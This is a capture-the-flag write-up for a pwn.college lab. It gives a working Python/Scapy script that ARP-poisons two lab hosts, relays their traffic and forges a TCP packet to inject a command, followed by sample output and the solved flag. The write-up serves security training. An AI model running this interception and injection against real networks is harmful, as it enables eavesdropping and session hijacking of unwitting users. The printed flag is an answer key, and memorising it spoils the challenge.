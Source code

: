 # 🕵️‍♂️ Man-in-the-Middle – Writeup (pwn.college)

## 📌 Challenge Description

> Man-in-the-middle traffic from a remote host.  
> The remote host at `10.0.0.2` is communicating with the remote host at `10.0.0.3` on port `31337`.  
> Your task is to **perform a MitM attack**, observe the communication, and extract the flag.

---

## 🧠 Objective

- You are `10.0.0.1` and **not part of** the default communication path.
- The traffic between `.2` and `.3` is **not visible** to you initially.
- You must **intercept**, **relay**, and even **inject** traffic to trick the client into revealing the flag.

---

## 🔧 Solution Strategy

1. **ARP Spoof both .2 and .3** so they think you're the other host.
2. **Relay the traffic** between them to keep communication alive.
3. **Inject `flag`** in response to `command: ` prompt coming from the server.
4. **Capture the flag** as it flows back from the server.

---

## 🛠️ Implementation – `mitm.py`

```python
from scapy.all import *
import threading
import signal
import time
import os

# Network details
iface = "eth0"
client_ip = "10.0.0.2"
server_ip = "10.0.0.3"
target_port = 31337

# Get MAC addresses
def get_mac(ip):
    ans, _ = sr(ARP(pdst=ip), timeout=2, verbose=0)
    for s, r in ans:
        return r.hwsrc
    return None

client_mac = get_mac(client_ip)
server_mac = get_mac(server_ip)
mitm_mac = get_if_hwaddr(iface)

if not all([client_mac, server_mac, mitm_mac]):
    print("[!] MAC address discovery failed.")
    exit(1)

print(f"[i] Client MAC: {client_mac}")
print(f"[i] Server MAC: {server_mac}")
print(f"[i] MITM MAC  : {mitm_mac}")

# ARP poisoning
def arp_poison():
    print("[*] Starting ARP poisoning...")
    while True:
        send(ARP(op=2, pdst=client_ip, psrc=server_ip, hwdst=client_mac), verbose=0)
        send(ARP(op=2, pdst=server_ip, psrc=client_ip, hwdst=server_mac), verbose=0)
        time.sleep(2)

# Restore ARP tables
def restore_arp():
    print("\n[*] Restoring ARP tables...")
    send(ARP(op=2, pdst=client_ip, psrc=server_ip, hwsrc=server_mac, hwdst="ff:ff:ff:ff:ff:ff"), count=5, verbose=0)
    send(ARP(op=2, pdst=server_ip, psrc=client_ip, hwsrc=client_mac, hwdst="ff:ff:ff:ff:ff:ff"), count=5, verbose=0)

# Main relay + injection function
def relay_and_inject(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(TCP)):
        return

    ip = pkt[IP]
    tcp = pkt[TCP]
    payload = pkt[Raw].load if pkt.haslayer(Raw) else b""

    # Live monitoring
    if payload:
        print(f"[{ip.src} → {ip.dst}] {payload!r}")

    # Injection logic
    if ip.src == server_ip and ip.dst == client_ip and b"command: " in payload:
        print("[!] Detected 'command: ', injecting 'flag'...")

        forged_ip = IP(src=client_ip, dst=server_ip)
        forged_tcp = TCP(
            sport=tcp.dport,
            dport=tcp.sport,
            seq=tcp.ack,
            ack=tcp.seq + len(payload),
            flags="PA"
        )
        forged_payload = Raw(load=b"flag")
        forged_eth = Ether(src=client_mac, dst=server_mac)

        packet = forged_eth / forged_ip / forged_tcp / forged_payload
        sendp(packet, iface=iface, verbose=0)
        print("[+] Injected forged 'flag' packet.")

        return  # Do not forward the original "command: " to client

    # Forwarding packets
    if ip.src == client_ip and ip.dst == server_ip:
        ether = Ether(src=mitm_mac, dst=server_mac)
    elif ip.src == server_ip and ip.dst == client_ip:
        ether = Ether(src=mitm_mac, dst=client_mac)
    else:
        return

    forward_packet = ether / pkt[IP]
    sendp(forward_packet, iface=iface, verbose=0)

# Handle Ctrl+C
def cleanup(sig, frame):
    restore_arp()
    os._exit(0)

# Start everything
signal.signal(signal.SIGINT, cleanup)
threading.Thread(target=arp_poison, daemon=True).start()

print("[*] Sniffing & relaying traffic... Press Ctrl+C to stop.\n")
sniff(iface=iface, prn=relay_and_inject, filter=f"tcp port {target_port}")
```
### Sample Output
```bash
[i] Client MAC: 2e:e3:f5:4d:5d:ee
[i] Server MAC: b6:2c:5c:8b:b4:44
[i] MITM MAC  : 1e:b2:f9:ed:a8:43
[*] Starting ARP poisoning...
[*] Sniffing & relaying traffic... Press Ctrl+C to stop.

[10.0.0.3 → 10.0.0.2] b'secret: '
[10.0.0.2 → 10.0.0.3] b'220894019aa5f407e6b346e5da8846b547828bff36cf7fc7f2cb2c529e88946b'
[10.0.0.3 → 10.0.0.2] b'command: '
[!] Detected 'command: ', injecting 'flag'...
[+] Injected forged 'flag' packet.
[10.0.0.2 → 10.0.0.3] b'flag'
[10.0.0.3 → 10.0.0.2] b'pwn.college{A0vbTQFwzpdP8HgUNl1wIFhy6gM.QXyczMzwSM0IzMyEzW}\n'
```

---
## Flag

```bash
pwn.college{A0vbTQFwzpdP8HgUNl1wIFhy6gM.QXyczMzwSM0IzMyEzW}
```
---
